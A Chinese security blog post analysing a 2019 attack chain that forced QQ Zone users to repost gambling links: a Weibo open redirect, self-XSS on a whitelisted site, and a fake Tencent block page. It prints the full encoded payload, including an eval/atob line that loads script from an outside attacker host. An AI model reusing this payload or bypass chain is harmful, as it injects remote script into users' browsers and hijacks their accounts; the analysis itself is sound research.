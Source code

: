 ```yaml
---
title: QQ空间流氓转发分析
abbrlink: 6862
date: 2019-09-03 16:53:47
categories:
tags:
---
```


*本文原发于先知社区 <https://xz.aliyun.com/t/6238> , 博客转自本人仅做备份用途*

## 写在之前

最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?

BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.

好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.

中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

![1](1.png)

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.

(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)

## 分析

### payload

```
https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123
```

一步一步来分析.

### 微博任意url跳转

已经提交给微博并被驳回,因此公开应该没什么问题.

测试一下,将payload填到浏览器并用bp抓包,可以看到

![1](2.png)

follow redirection 302跳转到了某白名单网站的网站

### 某白名单网站self-xss

(虽然该漏洞已修复,但还是抹去相关信息)

qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.

因此还需要个存在xss漏洞在白名单内的网站.

因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

![1](3.png)

```
https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123
```

xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.

```
"})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123
```

base64解码:

`document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")`

可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.

### 恶意域名执行转发

(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)

(所以这一部分主要根据我的记忆以及猜想)

该恶意网站伪造了腾讯拦截页面.

![1](4.png)

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.

该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.

猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.

这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.

听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)

## 小结

利用链是这样的:

微博任意url跳转 --- 其他白名单内网站self-xss --- 跳转至恶意网站执行恶意js 

这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)

因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.

因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.

可以参考下这两篇较早的文章,虽然利用思路完全不一样.

<https://www.freebuf.com/vuls/75711.html>

<https://www.freebuf.com/column/144879.html>